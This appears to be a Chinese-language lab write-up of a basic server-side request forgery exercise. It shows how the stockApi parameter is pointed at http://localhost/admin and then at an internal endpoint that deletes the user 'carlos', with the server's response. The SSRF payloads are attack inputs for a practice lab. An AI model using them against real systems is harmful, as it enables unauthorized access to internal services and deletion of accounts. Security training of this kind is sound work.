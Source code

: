 

将 stockApi 的地址修改为要访问的内部服务的地址（`http://localhost/admin`）。

```
stockApi=http://localhost/admin
```



使用 BurpSuite 发送 HTTP 请求，成功访问到目标服务器。

![image-20250315091035202](./images/SSRF.assets/image-20250315091035202.png)



通过查看原始 HTTP 元素，找到删除用户的接口。

```
<a href="/admin/delete?username=wiener">
<a href="/admin/delete?username=carlos">
```



将 stockApi 的地址修改删除用户的接口的地址，并使用 BurpSuite 发送数据包。

```
stockApi=http://localhost/admin/delete?username=carlos
```

服务器返回内容

```
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=UpcZIVyu7yNnOa9irECMAQGhjj6FkSDj; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```



再次访问 admin 页面，用户 carlos 被成功删除。

![image-20250315093129201](./images/SSRF.assets/image-20250315093129201.png)
